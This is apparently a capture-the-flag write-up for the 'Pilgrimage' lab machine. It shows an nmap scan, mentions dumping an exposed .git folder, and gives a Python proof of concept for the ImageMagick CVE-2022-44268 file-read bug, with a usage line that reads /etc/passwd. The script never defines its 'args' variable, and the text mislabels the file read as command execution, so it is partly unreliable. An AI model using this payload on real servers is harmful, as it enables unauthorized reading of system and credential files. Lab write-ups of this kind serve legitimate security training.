# PILGRIMAGE 

### NMAP SCAN:
```

Starting Nmap 7.80 ( https://nmap.org ) at 2023-08-07 20:22 +0530
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.70% done; ETC: 20:23 (0:00:42 remaining)
Warning: 10.10.11.219 giving up on port because retransmission cap hit (2).
Nmap scan report for Pilgrimage.htb (10.10.11.219)
Host is up (0.18s latency).
Not shown: 952 closed ports, 46 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.99 seconds
```


Here we can see a .git folder in the http website provided downloading the .git file from the webstie using  `git-dump`. In the login.php file we can see that the website using imagemagik to shrink the image file .Image Magik has the permissions to read files in the server from that we can run commands to get any information about users for ssh login.We can also see that there is the path of the database mentioned in the index.php page.

### ImageMagick 7.1.0-49 - Arbitrary File Read `CVE-2022-44268`
> When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary remote file (if the ImageMagick binary has permissions to read it).

```
import png
import argparse
import os
import time
from PIL import Image, PngImagePlugin

def main():
    time.sleep(0.2)
    width = 255
    height = 255
    img = []
    for y in range(height):
        row = ()
        for x in range(width):
            row = row + (x, max(0, 255 - x - y), y)
        img.append(row)
    with open('gradient.png', 'wb') as f:
        w = png.Writer(width, height, greyscale=False)
        w.write(f, img)
    time.sleep(0.2)
    print("   [\u001b[32;1m>\u001b[0m] Blank PNG generated")
    time.sleep(0.2)
    print(f"   [\u001b[32;1m>\u001b[0m] Placing Payload to read {args.lfile}")
    info = PngImagePlugin.PngInfo()
    info.add_text("profile", args.lfile)
    im = Image.open("gradient.png")
    im.save(args.output, "PNG", pnginfo=info)
    time.sleep(0.2)
    print(f"   [\u001b[32;1m>\u001b[0m] PoC PNG generated > {args.output}")

    
    gradient_file = "gradient.png"
    if os.path.isfile(gradient_file):
        os.remove(gradient_file)
    else:
        pass

if __name__ == '__main__':
    main()

```
This python code is used to embed a command inside the image and generate the image which then executes in the server after it gets uploaded  `python3 generate.py -f "/etc/passwd" -o exploit.png`

